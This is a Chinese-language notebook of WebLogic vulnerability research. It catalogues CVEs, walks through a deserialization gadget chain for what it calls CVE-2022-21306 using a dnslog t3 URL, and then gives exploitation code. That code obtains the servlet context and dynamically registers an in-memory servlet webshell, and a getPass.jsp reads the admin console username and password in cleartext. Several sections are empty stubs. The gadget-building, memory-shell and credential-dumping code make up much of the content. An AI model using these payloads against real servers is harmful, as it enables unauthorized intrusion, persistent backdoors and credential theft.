

基础篇
---

环境搭建

T3

IIOP


漏洞篇
---

### 相关漏洞
RCE
- CVE-2020-14882 + CVE-2020-14883

File Read
- CVE-2019-2615

File Upload
- CVE-2018-1894

IIOP
- CVE-2020-14756
- CVE-2020-2551
- CVE-2021-2135

JNDI
- CVE-2018-3191
- CVE-2020-14645
- CVE-2020-14841
- CVE-2021-2109
- CVE-2021-2394

RMI
- CVE-2017-3248
- CVE-2018-2628
- CVE-2018-2893
- CVE-2018-3245

SSRF
- CVE-2014-4210

T3
- CVE-2015-4952
- CVE-2016-0638
- CVE-2016-3510
- CVE-2017-3248
- CVE-2018-2893
- CVE-2018-3245
- CVE-2019-1890
- CVE-2020-14756
- CVE-2020-2555
- CVE-2020-2883
- CVE-2021-2135
- CVE-2022-21306 ? (HomeHandle)

XMLDecoder
- CVE-2017-3506
- CVE-2017-10352
- CVE-2019-2725
- CVE-2019-2729

XXE
- CVE-2018-3246
- CVE-2019-2647
- CVE-2019-2648
- CVE-2019-2649
- CVE-2019-02650

### 漏洞分析

#### CVE-2022-21306 ? 

##### 漏洞描述

影响范围

```
Oracle Weblogic 12.1.3.0.0
Oracle Weblogic 12.2.1.3.0
Oracle Weblogic 12.2.1.4.0
Oracle Weblogic 14.1.1.0.0
```


##### 漏洞复现

###### 漏洞验证

##### 漏洞分析

source

- javax.management.BadAttributeValueExpException#readObject

sink

- weblogic.ejb20.internal.HomeHandleImpl#getEJBHome
  - wlthint3client.jar

调用栈

```java
getEJBHome:49, HomeHandleImpl (weblogic.ejb20.internal)
getBusinessObject:182, BusinessHandleImpl (weblogic.ejb.container.internal)
unwrapEJBObjects:138, AttributeWrapperUtils (weblogic.servlet.internal.session)
unwrapObject:111, AttributeWrapperUtils (weblogic.servlet.internal.session)
getAttributeInternal:449, SessionData (weblogic.servlet.internal.session)
getAttribute:428, SessionData (weblogic.servlet.internal.session)
isDebuggingSession:1359, SessionData (weblogic.servlet.internal.session)
toString:1371, SessionData (weblogic.servlet.internal.session)
readObject:86, BadAttributeValueExpException (javax.management)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:2122, ObjectInputStream (java.io)
readOrdinaryObject:2013, ObjectInputStream (java.io)
readObject0:1535, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
readObject:67, InboundMsgAbbrev (weblogic.rjvm)
read:39, InboundMsgAbbrev (weblogic.rjvm)
readMsgAbbrevs:287, MsgAbbrevJVMConnection (weblogic.rjvm)
init:212, MsgAbbrevInputStream (weblogic.rjvm)
dispatch:507, MsgAbbrevJVMConnection (weblogic.rjvm)
dispatch:489, MuxableSocketT3 (weblogic.rjvm.t3)
dispatch:359, BaseAbstractMuxableSocket (weblogic.socket)
readReadySocketOnce:970, SocketMuxer (weblogic.socket)
readReadySocket:907, SocketMuxer (weblogic.socket)
process:495, NIOSocketMuxer (weblogic.socket)
processSockets:461, NIOSocketMuxer (weblogic.socket)
run:30, SocketReaderRequest (weblogic.socket)
execute:43, SocketReaderRequest (weblogic.socket)
execute:147, ExecuteThread (weblogic.kernel)
run:119, ExecuteThread (weblogic.kernel)
```

SinkCaller.java
```java
String url = "t3://xx.cbix91.dnslog.cn:7001/xx";
Name name = new LdapName("cn=x, dc=x");
HomeHandleImpl homeHandle = new HomeHandleImpl(null, name, null);
// 反射修改 serverURL
Field serverURL = homeHandle.getClass().getDeclaredField("serverURL");
serverURL.setAccessible(true);
serverURL.set(homeHandle, url);
// 调用 getEJBHome()
homeHandle.getEJBHome();

BusinessHandleImpl businessHandle = new BusinessHandleImpl();
// 反射修改 homeHandle
Field homeHandleF = businessHandle.getClass().getDeclaredField("homeHandle");
homeHandleF.setAccessible(true);
homeHandleF.set(businessHandle, homeHandle);
// 调用 getBusinessObject() ->  触发Sink：getEJBHome()
// businessHandle.getBusinessObject();

AttributeWrapperUtils attributeWrapperUtils = new AttributeWrapperUtils();
AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);
// 反射修改 isEJBObjectWrapped
Field isEJBObjectWrapped = attributeWrapper.getClass().getDeclaredField("isEJBObjectWrapped");
isEJBObjectWrapped.setAccessible(true);
isEJBObjectWrapped.set(attributeWrapper, true);
// 调用 unwrapObject() -> unwrapEJBObjects() -> getBusinessObject() -> getEJBHome()
attributeWrapperUtils.unwrapObject("xxxx", attributeWrapper, null);

FileSessionData sessionData = new FileSessionData();
//  反射修改 attributes
Map map = new HashMap<>();
map.put("wl_debug_session", attributeWrapper);
Field attributes = sessionData.getClass().getSuperclass().getDeclaredField("attributes");
attributes.setAccessible(true);
attributes.set(sessionData, map);
// 调用 toString()
//sessionData.toString();

// 通过BadAttributeValueExpException来调用toString方法
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
val.setAccessible(true);
val.set(badAttributeValueExpException,sessionData);

return badAttributeValueExpException;
```

##### 漏洞修复

##### 漏洞利用（可选）


ref:
- https://mp.weixin.qq.com/s/AL8hT3zhIsK4ItwcHpiylQ

利用篇
---

### 内存马

#### 获取上下文 WebAppServletContext

- WebAppServletContext

```java
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
Method getCurrentWork = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = getCurrentWork.invoke(Thread.currentThread());
WebAppServletContext webAppServletContext;
try { 
	// weblogic 12.1.3
	Field connectionHandler = currentWork.getClass().getDeclaredField("connectionHandler");
	connectionHandler.setAccessible(true);
	Object httpConnectionHandler = connectionHandler.get(currentWork);
	Field requestF = httpConnectionHandler.getClass().getDeclaredField("request");
	requestF.setAccessible(true);
	httpConnectionHandler = requestF.get(httpConnectionHandler);
	java.lang.reflect.Field contextF = httpConnectionHandler.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(httpConnectionHandler);
} catch (Exception e) {
	// weblogic 1036
	Field contextF = currentWork.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(currentWork);
}
```

#### 动态注册Servlet内存马  

跟了一下从web.xml添加servet的流程，可以使用registerServlet方法注册Servlet，不过不同版本的weblogic对该方法有不同实现:

##### 10.3.6.0


成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()


反射调用
```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class, Map.class);
registerServlet.setAccessible(true);
HashMap hashMap = new HashMap();
registerServlet.invoke(webAppServletContext, "TestServlet", "/abcd", servletClass.getName(), hashMap);
```
测试效果


##### 12.1.3.0.0

成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()


同样的，反射调用

```java
Method registerServlet = webAppServletContext.getClass().getDeclaredMethod("registerServlet", String.class, String.class, String.class);
registerServlet.setAccessible(true);
registerServlet.invoke(webAppServletContext, "TestServlet", "/121300", servletClass.getName());
response.getWriter().write("Servlet Injected Successfully!!!");
```

测试效果


#### 动态注册Listener内存马  


#### 动态注册Filter内存马  

##### 10.3.6.0

测试效果


##### 12.1.3.0.0

测试效果


### 获取Weblogic console用户名&密码(免解密)-getPass.jsp

以往遇上weblogic的站点时都是通过密钥进行解密获取console的密码，甚至但是解密方法就出现好几种，


但是前几个小时在twitter @jas502n师傅公开了[Use T3 protocol Get weblogic console username, password](https://twitter.com/jas502n/status/1467122190760177664)这个姿势，于是赶紧学习学习！！！


断点看看代码细节：



代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果


